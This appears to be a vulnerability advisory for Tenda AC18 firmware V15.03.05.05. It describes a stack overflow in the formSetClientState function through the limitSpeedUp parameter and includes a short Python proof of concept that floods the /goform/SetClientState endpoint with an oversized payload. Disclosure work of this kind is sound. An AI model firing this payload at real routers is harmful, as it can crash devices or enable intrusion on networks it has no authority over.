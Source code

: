 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v10` variable receives the `limitSpeedUp` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `limitSpeedUp` can trigger this security vulnerability.

![image-20240306000226211](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306000226211.png)

![image-20240306000240089](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306000240089.png)

![image-20240306000256998](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306000256998.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000

data = {'limitEn':1,"limitSpeedUp": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305223636784](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223636784.png)
